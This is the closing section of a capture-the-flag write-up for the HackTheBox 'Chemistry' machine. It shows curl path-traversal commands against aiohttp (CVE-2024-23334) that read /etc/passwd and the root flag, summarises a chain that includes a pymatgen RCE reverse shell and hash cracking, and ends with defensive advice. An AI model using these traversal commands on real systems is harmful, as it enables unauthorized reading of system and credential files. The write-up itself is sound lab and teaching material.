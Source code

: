 ![127001_9999](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/127001_9999.png)

---
### 4.2 Exploiting LFI in aiohttp

Accessing the local service showed an internal web application.  

This version of `aiohttp` (3.9.1) is vulnerable to **Path Traversal → Arbitrary File Read** ([CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334)).

```bash
curl --path-as-is http://127.0.0.1:9999
```

![curl_path_as_is](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/curl_path_as_is.png)

Let's enumerate `/etc/passwd`:

![etc_passwd](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/etc_passwd.png)

We exploited the LFI to read `/root/root.txt`:

```bash
curl --path-as-is http://127.0.0.1:8080/assets/../../../root/root.txt
```

![root_flag](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/root_flag.png)

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Found CIF file upload in Flask app.  
2. **pymatgen RCE** → Uploaded malicious `.cif` to obtain reverse shell.  
3. **Credential Harvesting** → Extracted `rosa`'s hash from SQLite DB and cracked it.  
4. **SSH Access** → Logged in as `rosa`.  
5. **Port Forwarding** → Accessed internal web app on port 8080.  
6. **aiohttp LFI** → Read `/root/root.txt` via path traversal.

---
## Defensive Recommendations

**For pymatgen RCE (CVE-2024-23346):**  
- Validate and sanitize file uploads; allow only trusted file formats.  
- Implement MIME type and magic number checks to confirm file type.  
- Process untrusted files in isolated environments (sandbox/jail).  
- Update `pymatgen` to the latest patched version.
